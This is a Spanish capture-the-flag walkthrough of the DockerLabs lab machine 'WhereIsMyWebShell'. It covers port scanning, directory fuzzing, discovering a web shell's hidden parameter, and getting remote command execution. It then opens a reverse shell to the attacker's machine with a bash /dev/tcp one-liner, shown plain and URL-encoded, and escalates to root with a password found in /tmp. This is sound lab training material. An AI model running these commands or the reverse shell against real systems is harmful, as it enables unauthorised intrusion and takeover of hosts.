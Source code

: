 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "WhereIsMyWebShell".
Una vez hecho y COMO SIEMPRE, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh whereismywebshell.tar
```
Lo primero de todo, tras desplegarse la maquina, es hacer un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 172.18.0.2 -n -Pn -vvv
```
Una vez terminado, vemos que tiene unicamente un puerto abierto, el puerto 80 (HTTP):
```
Discovered open port 80/tcp on 172.17.0.2
```
Siendo asi, pasamos a introducir la direccion IP en el navegador para ver que obtenemos y vemos una pagina de una academia de ingles, donde vemos que al final hay un pequeño mensaje:
```
¡Contáctanos hoy mismo para más información sobre nuestros programas de enseñanza de inglés!. Guardo un secretito en /tmp ;)
```
De momento no tenemos mas informacion, por lo que vamos a hacer un poco de FUZZING WEB:
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,html
```
y obtenemos la siguiente informacion:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 2510]
/shell.php            (Status: 500) [Size: 0]
/warning.html         (Status: 200) [Size: 315]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 622929 / 622932 (100.00%)
```
Probamos con la pagina "/warning.html" y vemos el siguiente mensaje por pantalla:
```
Esta web ha sido atacada por otro hacker, pero su webshell tiene un parámetro que no recuerdo...
```
Tambien tenemos el "/shell.php" pero al colocarlo en el navegador, solo podemos ver una pagina en blanco.
Es momento de usar "wfuzz" para intentar buscar la palabra que deberiamos colocar detras de "/shell.php" y poder ejecutar comandos, por lo que escribimos:
```
wfuzz -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=id" --hc 404 --hl 0 -t 50
```
Y tras un ratito nos encuentra la palabra "parameter" tal y como se puede observar abajo:
```
=====================================================================
ID           Response   Lines    Word       Chars       Payload                  =====================================================================

000115401:   200        2 L      4 W        66 Ch       "parameter"
```
Probamos a poner "http://172.17.0.2/shell.php?parameter=id" y recibimos la siguiente respuesta por la web:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Con esto podemos ver que ya tenemos la ejecucion remota de comandos.

Bien, vamos a intentar hacer una reverse shell, por lo que con NETCAT nos pondremos a la escucha por el puerto 443, por ejemplo:
```
nc -nlvp 443
```
pero antes de nada, vamos a intentar pasar a formato web (urlcodear) el siguiente comando obtenido de la pagina "https://www.revshells.com/" para conseguir nuestra reverse:
```
bash -c "sh -i >& /dev/tcp/172.17.0.1/443 0>&1"
```
Para hacer esto, la propia pagina nos permite pasar dicho comando a formato "URL Encode", abajo a la derecha, y donde nos quedaria:
```
bash -c "sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F443%200%3E%261"
```
Con esto hemos obtenido ya la reverse shell y con ello, el acceso a la maquina victima. De todas formas, ahora es momento de hacer un tratamiento de la tty:
```
1) Escribimos:
	script /dev/null -c bash
2) Ahora pulsamos (CTRL + Z) y nos devuele a la terminal de la maquina atacante
3) Escribimos:
	stty raw -echo; fg
4) Una vez escrito lo anterior y vuelto a la maquina victima, escribimos:
	reset xterm
5) Finalmente, escribimos estos dos comandos:                    
    export TERM=xterm
    export SHELL=bash
6) Nos quedaria la terminal de la siguiente forma:
	www-data@c306b3822817:/var/www/html$ 
```
Ahora, lo suyo seria ir a la carpeta "/temp" que nos decia la pagina principal de la academia en el mensajito de abajo del todo, para ver cual era ese "secretito".
```
www-data@c306b3822817:/var/www/html$ cd /tmp
```
Y al lanzar un "ls -la", vemos:
```
www-data@c306b3822817:/tmp$ ls -la

total 12
drwxrwxrwt 1 root root 4096 Jul 16 21:27 .
drwxr-xr-x 1 root root 4096 Jul 16 21:27 ..
-rw-r--r-- 1 root root   21 Apr 12 16:07 .secret.txt

www-data@c306b3822817:/tmp$ 
```
Es momento de hacer un "cat" a ver lo que hay en ".secret.txt":
```
www-data@c306b3822817:/tmp$ cat .secret.txt 
contraseñaderoot123

www-data@c306b3822817:/tmp$ 
```
Ya teniendo la contraseña, vemos que hemos conseguido acceso "root" al cambiar a dicho usuario tal y como se observa aqui abajo:
```
www-data@c306b3822817:/tmp$ su root
Password:       <==== Metemos la contraseña que habia en ".secret.txt"

root@c306b3822817:/tmp# whoami
root            <==== Vemos que somos finalmente "root"

root@c306b3822817:/tmp# 
```
Y con esto, la maquina estaria terminada :) !!
